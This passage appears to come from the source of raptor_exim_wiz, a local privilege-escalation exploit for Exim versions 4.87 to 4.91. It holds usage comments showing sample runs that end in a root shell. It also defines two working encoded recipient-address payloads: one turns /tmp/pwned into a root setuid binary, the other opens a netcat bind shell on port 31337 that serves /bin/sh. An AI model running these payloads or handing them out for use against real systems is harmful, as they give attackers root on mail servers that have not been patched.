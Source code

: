     # Delivering setuid payload...
    # [...]
    # Waiting 5 seconds...
    # -rwsr-xr-x 1 root raptor 8744 Jun 16 13:03 /tmp/pwned
    # # id
    # uid=0(root) gid=0(root) groups=0(root)
    #
    # Usage (netcat method):
    # $ id
    # uid=1000(raptor) gid=1000(raptor) groups=1000(raptor) [...]
    # $ ./raptor_exim_wiz -m netcat
    # Delivering netcat payload...
    # Waiting 5 seconds...
    # localhost [127.0.0.1] 31337 (?) open
    # id
    # uid=0(root) gid=0(root) groups=0(root)
    #
    # Vulnerable platforms:
    # Exim 4.87 - 4.91
    #
    # Tested against:
    # Exim 4.89 on Debian GNU/Linux 9 (stretch) [exim-4.89.tar.xz]
    #
    METHOD="setuid" # default method
    PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
    PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'
    # usage instructions
    function usage()